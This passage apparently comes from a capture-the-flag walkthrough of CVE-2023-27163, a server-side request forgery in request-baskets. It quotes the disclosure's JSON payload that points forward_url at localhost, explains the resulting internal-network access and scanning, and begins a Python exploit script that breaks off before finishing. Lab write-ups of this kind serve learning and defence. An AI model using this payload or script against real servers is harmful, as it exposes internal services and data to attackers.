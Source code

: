 I found another resource that is a *description (aka crawl and copy) of the PoC* within the initial disclosure (unfortunately, I cannot access [the initial disclosure](https://notes.sjtu.edu.cn/s/MUUhEymt7)):

> request-baskets SSRF details Follow the official documentation to start  forem with docker installation. Then, we log in to the administrator background:  The following API’s forward_url parameter is vulnerable to SSRF： 1.  /api/baskets/{name} 2. /baskets/{name} Let’s take /api/baskets/{name}  API as an example, another API is the same vulnerability. We use the  following payload to post /api/baskets/{name} API： ``` { "forward_url":  "http://127.0.0.1:80/test", "proxy_response": false, "insecure_tls":  false, "expand_path": true, "capacity": 250 } ```  ! Direct post can only set the url, you need to visit the url -  http://192.168.175.213:55555/test to trigger the SSRF vulnerability.  # Influence： **Information Disclosure and Exfiltration** This was  previously identified as an issue. Requests for images that are  unauthenticated can lead to the leak of all existing images in the  server. However, this isn’t limited to just images. Any resource that  can be obtained via an HTTP request on the local network of the  webserver can be obtained remotely via this request. **Unauthenticated  Access to Internal Network HTTP Servers** The SSRF attack can be  leveraged to connect to any HTTP Server connected to the same network as the request-baskets server, for instance an Nginx server exposed only  internally, an internal RESTful API, such as a NoSQL database, or a  GraphQL database. This is not limited just to services hosted on the  local machine, but all the machines connected on the local network.  **Port and IP Scanning and Enumeration** This vulnerability can be  leveraged to port scan for HTTP servers both internal and external  services on demand, as well as enumerating all the machines in the local network that have open HTTP ports.

In an attempt to perform what is described above, I wrote the following script (final version shown later in the walkthrough):

> My initial reaction is always to just try an exploit like this in the browser or Burp Proxy. However, I often make small mistakes or malform the request, etc. In an effort to avoid that, I figured I would try the same process using Python + Requests.

```python
#!/bin/python3

'''
From https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3

POC: POST /api/baskets/{name} API with payload - {"forward_url": "http://127.0.0.1:80/test","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}
details can be seen: https://notes.sjtu.edu.cn/s/MUUhEymt7
'''

import requests
import argparse

parser = argparse.ArgumentParser(                                                                 
    prog='CVE-2023-27163-exploit.py',
    description='Exploit the SSRF vulnerability in Request-Baskets (v1.2.1 or earlier)',
    epilog='Author: 4wayhandshake')

parser.add_argument('target', help='The URL of the target, Ex. "http://10.10.11.224:55555")', type=str)
parser.add_argument('basket', help='The ID of the basket to use (Ex. "geto2km")', type=str)

args = parser.parse_args()

s = requests.session()

def postTarget(resource):
    target_url = f'{args.target}/api/baskets/{args.basket}'
    payload = {
        "forward_url": f'http://127.0.0.1:55555/{resource}',
        "proxy_response": False,
        "insecure_tls": False,
        "expand_path": True,
        "capacity": 250
    }
```